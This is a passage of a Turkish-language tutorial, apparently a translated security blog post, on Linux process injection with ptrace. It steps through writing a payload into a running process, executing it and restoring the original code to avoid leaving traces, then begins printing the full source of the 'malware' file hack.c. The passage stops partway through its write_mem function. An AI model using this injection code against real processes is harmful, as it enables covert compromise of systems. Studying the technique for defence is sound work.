 Gördüğünüz gibi, bu fonksiyon `read_mem` fonksiyonuna benzer, ancak **belleğe yazma** mantığı için kullanılır.      

Bir sonraki aşamada, işlemin komut işaretçisini (`RIP`) değiştirilerek enjekte edilen yükün çalıştırılması sağlanır:     

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

Yük çalıştırıldıktan sonra, orijinal bellek talimatları geri yüklenerek işlemin çökmesi veya iz bırakması önlenir:      

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

Son olarak, hedef işlemden ayrılarak normal çalışmasına devam etmesine izin verilir:     

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

Böylece, kod enjeksiyonu yapan "zararlı yazılımımızın" tam kaynak kodu şu şekilde görünüyor (`hack.c`):   

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
```